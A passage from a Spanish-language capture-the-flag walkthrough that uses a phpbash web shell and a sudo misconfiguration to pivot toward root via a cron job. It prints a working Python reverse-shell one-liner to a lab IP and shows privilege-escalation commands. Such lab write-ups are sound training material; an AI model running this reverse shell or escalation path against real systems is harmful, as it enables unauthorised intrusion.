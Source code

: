 En */dev* descubro los archivos que estaba buscando:

<img src="https://user-images.githubusercontent.com/55555187/183285321-b4121872-368a-4a06-9b00-0f3e075d542d.png" title="" alt="image" width="460">

El archivo *phpbash.php* ofrece una consola semi interactiva (ya que no estamos en una tty realmente)

<img src="https://user-images.githubusercontent.com/55555187/183285441-8ff7ae28-f808-4fc5-a25d-ea6752f51182.png" title="" alt="image" width="529">

## Escalada de privilegios

Lo primero que hago es comprobar si puedo ejecutar *sudo* en algún contexto y descubro que puede ejecutar sudo como el usuario *scriptmanager*. 

Antes de hacer nada, decido obtener una tty ya que desde la web no puedo:

1. Usar *netcat* con la opción -e

2. *Curl* y *wget* no tienen conectividad con el exterior por lo que no puedo bajarme ningún archivo de mi máquina

3. Por algún motivo tampoco es posible introducir contenido a ficheros usando la técnica *echo 'abc' > fichero*

4. Tampoco puedo ejecutar editores de texto 

Como la máquina tiene *Python* instalado, me entablo una *reverse shell* usandolo.

```bash
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.9",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

En la raiz descubro el directorio */scripts* al que no puedo acceder mediante *cd* pero si puedo ver su contenido usando *ls -l /scripts*:

![image](https://user-images.githubusercontent.com/55555187/183287274-2d050f74-e8ae-4128-9965-3bcbc7eceb1b.png)

<img src="https://user-images.githubusercontent.com/55555187/183287323-174e42f9-fe95-480f-9774-0ef91cefb4ed.png" title="" alt="image" width="521">

Viendo que hay un script en *Python*, intuyo que se puede estar ejecutando una tarea *cron* que haga uso de él por lo que me bajo *pspy* a la máquina víctima y lo ejecuto:

<img src="https://user-images.githubusercontent.com/55555187/183287463-cf5165c8-3ba1-4775-a81b-111781f06cb0.png" title="" alt="image" width="620">

Veo que root está ejecutando todos los scripts en *python* que haya en el directorio */scripts* lo que supondría un vector de escalada si consiguiese ser *scriptmanager*.

Por suerte, *www-data* puede ejecutar cualquier comando como scriptmanager haciendo uso de sudo, spawneo una consola como el usuario *scriptmanager*:

```bash
sudo -u scriptmanager bash -i
```

![image](https://user-images.githubusercontent.com/55555187/183289203-b22893b0-366a-4007-b6e1-e596ccfa1b30.png)
